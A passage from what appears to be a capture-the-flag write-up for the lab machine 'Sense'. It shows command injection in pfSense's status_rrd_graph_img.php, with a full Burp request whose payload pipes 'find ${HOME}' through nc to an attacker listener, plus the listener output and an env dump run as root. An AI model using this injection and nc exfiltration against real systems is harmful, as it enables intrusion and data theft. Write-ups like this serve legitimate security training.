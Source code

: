```bash hl_lines="1"
Connection: keep-alive
```

You can play with the link but we can inject commands from here. I tried `whoami` and while listing on my attacker machine I get a `root` tried a few more commands. i did tri to use the `/` but its a bad character so we have to find a way to use the `/` to navigate to other directories. I used the `env` and got a list of the variable. 

```bash
➜  Sense-10-129-147-216 nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.147.216] 13257
OLDPWD=/
HOME=/
PHP_FCGI_MAX_REQUESTS=500
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin:/usr/local/sbin
LANG=en_US.ISO8859-1
PHP_FCGI_CHILDREN=1
PWD=/var/db/rrd
```
We can use the `HOME` as it will give us a `/` to navigate through the files and directories.
I start a listener on the kali terminal and save the output to a `filesystems.txt`

```bash
nc -lnvp 90002 > filesystems.txt
```
then I change the exploit on the burbsuit repeater.

```bash hl_lines="1"
GET /status_rrd_graph_img.php?database=queues;find+${HOME}|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```
